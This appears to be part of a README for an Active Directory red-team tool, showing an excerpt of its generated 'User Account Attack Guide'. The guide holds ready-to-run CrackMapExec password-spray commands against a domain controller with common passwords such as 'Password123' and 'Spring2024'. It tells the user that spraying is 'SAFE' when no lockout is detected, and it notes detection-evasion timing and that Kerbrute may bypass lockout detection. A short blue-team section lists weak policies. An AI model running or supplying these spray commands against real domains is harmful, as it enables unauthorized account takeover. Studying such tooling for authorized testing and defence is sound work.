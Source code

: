 ### USERS_ATTACK_GUIDE.txt (Excerpt)
```
================================================================================
USER ACCOUNT ATTACK GUIDE
================================================================================

Total Domain Users: 250

================================================================================
PASSWORD SPRAY METHODOLOGY
================================================================================

⚠ CRITICAL WARNING ⚠
--------------------------------------------------------------------------------
✓ No account lockout detected - password spraying is SAFE
✓ You can attempt multiple passwords per user

================================================================================
METHOD 1: CrackMapExec (Recommended)
================================================================================

Single password spray:
crackmapexec smb <DC-IP> -u users.txt -p 'Password123' --continue-on-success

Common passwords (use ONE at a time):
crackmapexec smb <DC-IP> -u users.txt -p 'Welcome1' --continue-on-success
crackmapexec smb <DC-IP> -u users.txt -p 'Spring2024' --continue-on-success
...
```

---

## 🔐 Security Implications

### For Red Teams
✅ **Identifies Safe Spray Opportunities**
- No lockout = spray as many passwords as you want
- Lockout exists = calculates safe attempt count
- Provides timing guidance to avoid detection

✅ **Respects Lockout Policies**
- Never recommends more attempts than safe
- Calculates observation window wait times
- Warns about lockout risks

✅ **Provides Multiple Methods**
- CrackMapExec (most common)
- Kerbrute (may bypass lockout detection)
- PowerShell (Windows-native)

### For Blue Teams
⚠️ **Weak Policies Highlighted**
- Identifies domains with no lockout
- Flags short password minimums
- Detects disabled complexity
